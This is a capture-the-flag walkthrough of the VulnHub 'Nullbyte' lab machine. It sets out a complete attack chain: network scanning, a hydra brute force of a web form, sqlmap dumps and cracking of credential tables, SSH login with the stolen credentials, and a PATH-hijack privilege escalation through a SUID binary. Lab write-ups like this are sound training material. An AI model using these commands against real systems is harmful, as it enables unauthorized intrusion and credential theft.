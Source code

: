 # NullByte

Nullbyte Walkthrough

### Details

* Name: Nullbyte ([VulnHub](https://www.vulnhub.com/entry/nullbyte-1,126/))
* Goal/Objective: Get */root/proof.txt*

### Scanning

I began by using *netdiscover* to scan my network for computers/devices:
```bash
$sudo netdiscover
```

This then returned the IP address of the target machine: ***192.168.132.88***. From there I proceeded to do my intial scan on the network using *nmap*:
```bash
$nmap -A -p0-65535 192.168.132.88
```

The nmap scan returns promising results as there are a couple of ports open:
     * 80/tcp - HTTP
     * 111/tcp - RPCBIND
     * 777/tcp - SSH
     * 60316/tcp
The two services that stood out to me immediately were HTTP & SSH. Note that SSH (port 22) is being forwarded to port 777, we'll keep this in mind for later.

### Website Exploring

I then proceeded to visit the website (http://192.168.132.88:80) to some investigating. The source code for the website did not display anything promising as it only contains a image & some text.

However, I decided to check the image using exiftool to see if there was anything hidden within the metadata:
```bash
$exiftool main.gif
```
Looking through the output, I was able to see that there was a section labeled "comments" that contained something that could be useful: *P-): kzMb5nVYJw*


While all this was being done, I did my normal routine of website scanning to help look for extra directories, etc:
```bash
# nikto scan
$nikto -h http://192.168.132.88

# gobuster
$gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.132.88/

# dirb
$dirb 192.168.132.88
```
The most important directories that were returned were */uploads* and ***/phpmyadmin/***

### 'Key' cracking

Remember that string that was returned by exiftool? The one labeled as a comment? "P-): kzMb5nVYJw". Yeah we're going to need that. If you remove the first couple of characters up until the space, you're left with "kzMb5nVYJw". This ends up being a directory within the website, http://192.168.132.88/kzMb5nVYJw.

On this page we see a very simple page that contains a textbox titled "Key". However the issue is.. we don't have a key yet.

There are two ways to approach cracking this "Key", using Hydra or Burpsuite. I will show you both.

### Hydra

If you open up the developer tools and go to the "Network" tab, and reload the website. You notice there is a POST request being made. If you click on it and expand the "Request" tab, you see that it is a value *key* is being used as form data. With all this in mind, we can use it to construct a hydra command to help us guess the value of "key".
```bash
$hydra -l none -P /usr/share/wordlists/rockyou.txt 192.168.132.88 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```
A quick breakdown of the command we're using:
     * -l: username (none)
     * -P: "password" wordlist
     * http-post-form: Recall it is a POST call being made using the form
     * "/kzMb5nVYJw/index.php:key=^PASS^:invalid key": We encode the *key* to be url encoded so that it can be passed as an argument, then we use '^' to surround the value that we want hydra to brute form, the password aka the "key"
The hydra command is able to find the password/key: elite

### Burpsuite

We will use burpsuite to also brute-force the value of "key".

Start off by opening Burpsuite and selecting the proxy tab. Then click on "open browser" and visit the page that needs the key, http://192.168.132.88/kzMb5nVYJw. Next click on "interceptor on", then on the website type in anything into the textbox and press enter. 

Then once the data is returned/shown on burpsuite, next to the "intercept is on" button, click on "Action" button and select "Send to Intruder". This will send the information over to the Intruder tab. Switch to the Intruder tab, and at the bottom of the page, highlight the section of the string after the "=" and click on button on the right "Add". Once this is done, you should be able to switch tabs from "Positions" over to the "Payloads" tab. From here the only thing you need to do is on the "Payload setting", click on "Load" and go to "/usr/share/wordlists" to select the wordlist you would like to use. Once you have done this, you may press the orange button on the top right, "Start attack".

## SQL

Now that we have the key, we can use it on the page. We are now greeted with a page that seems to allow us to search for usernames.

Leaving the text-box empty and pressing enter returns a couple of entries from what appears to be a employee database. 

Since this seems to use mysql, let's try using *sqlmap* to explore the database.
```bash
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" --dbs
```
We see that sqlmap returns 5 databases. The two that we will explore are 'mysql' and 'seth'.

If you are not familiar with SQL, recall: A database contains tables. A table can be pictured as an excel file, where there are rows and columns of information.

### 'mysql' table

Let's first explore the *mysql* database
```bash
# Check what tables are in the 'mysql' database
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql --tables

# Check what columns are in the 'user' table (from the 'mysql database')
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user --columns

# Display User + Password from the 'user' table (from the 'mysql' database)
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D mysql -T user -C User,Password --dump
# Note that the command above will ask if you would like sqlmap to try and crack the passwords via a dictionary-based attack - select 'Y', then press enter to use the default password list.
```
sqlmap returns:
     * User: root | Password: sunnyvale
     * User: phpmyadmin | sunnyvale

### 'seth' table

Next, let's explore the *seth* database
```bash
# Check what tables are in the 'seth' database
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth --tables

# Check what columns are in the 'users' table (from the 'seth database')
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users --columns

# Display user + pass from the 'users' table (from the 'seth' database)
$sqlmap -u "http://192.168.132.88/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C user,pass --dump
```
sqlmap returns:
     * user: ramses | pass: YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE1
     * You can use a website to decrypt this md5 password twice to get the password: omega

## SSH

One thing to quickly notice is that we now have the credentials for the */phpmyadmin/* page (root/sunnyvale). However, I wasn't able to find anything important here.

So instead, let's try and use the credentials that we found from the 'seth' database to try and login via SSH:
```bash
# Notice we're using port 777
$ssh ramses@192.168.132.88 -p 777
```

## Priviledge Escalation

Now that we're in, we need to find a way to get root user.

Check to see if anything is out of the ordinary:
```bash
$find / -perm -u=s -type f 2>/dev/null
```

Notice that there is something within the www directory called 'procwatch'. If we try to run it, the output looks similar to a cron job.
```bash
$/var/www/backup/procwatch
```

It seems that it is attempting to deploy ps, but unable to do so. Go to the directory and create a script that will launch a bash shell.
```bash
# Go to correct directory
$ cd /var/www/backups

# Create bash script and title it ps
$ echo "/bin/bash" > ps

# Add root privileges to the file
$ chmod 777 ps
```


Now, let's check if this is just a script to run the *ps* command:
```bash
# env = list all environment variables | grep PATH = return line containing PATH
env | grep PATH

# Alternatively you can do
echo $PATH
```

Update the PATH for environment variables:
```bash
# Essentially what this command does is add "." + $PATH
export PATH=.:$PATH
```

Finally run `./procwatch`






